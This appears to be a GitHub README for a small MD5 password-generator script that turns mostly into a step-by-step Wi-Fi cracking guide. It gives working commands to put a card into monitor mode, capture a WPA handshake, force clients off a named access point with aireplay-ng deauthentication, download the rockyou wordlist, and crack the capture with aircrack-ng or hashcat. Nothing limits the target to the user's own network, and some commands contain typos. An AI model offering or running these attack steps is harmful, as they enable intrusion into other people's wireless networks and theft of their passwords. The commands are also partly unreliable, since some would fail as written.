 # Cryptography
Cryptography is a method of protecting information and communications through the use of codes so that only those for whom the information is intended can read and process it. The pre-fix "crypt" means "hidden" or "vault" and the suffix "graphy" stands for "writing."

# random-md5-generator 
creating a random password with md5sum encryption and then save the encrypted password in md5keys.txt

# How to use 
./random-md5-generator

Genateted Number:

879076701

-----------------------

Number to md5 Password:

82fc843ab6a4c1767572f75775800ae8  -


delete the  - from the file md5keys.txt

# crack with

hashcat -m 0 -a 3  md5keys.txt ?d?d?d?d?d?d?d?d


# then use 

hashcat -m 0 -a 3  md5keys.txt ?d?d?d?d?d?d?d?d --show 

or 

hashcat -m 0 -a 3  md5keys.txt ?d?d?d?d?d?d?d?d --show >> md5keys.txt

to see the unencypt keys 

# Get handshake with aircrack-ng

put your network device into monitor mode
airmon-ng start wlan0

listen for all nearby beacon frames to get target BSSID and channel
airodump-ng mon0

start listening for the handshake
airodump-ng -c 6 — bssid 9C:5C:8E:C9:AB:C0 -w capture/ mon0

optionally deauth a connected client to force a handshake
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 -c 64:BC:0C:48:97:F7 mon0

# download rockyou.txt wordlist
crack password with aircrack-ng… ########### download 134MB rockyou.txt dictionary file if needed
curl -L -o rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt

# crack with aircrack-ng
aircrack-ng -a2 -b 9C:5C:8E:C9:AB:C0 -w rockyou.txt capture/-01.cap

########## or crack password with hashcat ##########
# convert cap to hccapx
cap2hccapx.bin .-01.cap example.hccapx

# crack with hashcat for wordlist
hashcat -w 3 -m 2500 rockyou.txt example.hccapx  --force --self-test-disable

# crack with hashcat for bruteforche
 hashcat -w 3 -m 2500 -a 3 manos.hccapx ?d?d?d?d?d?d?d?d --force --self-test-disable
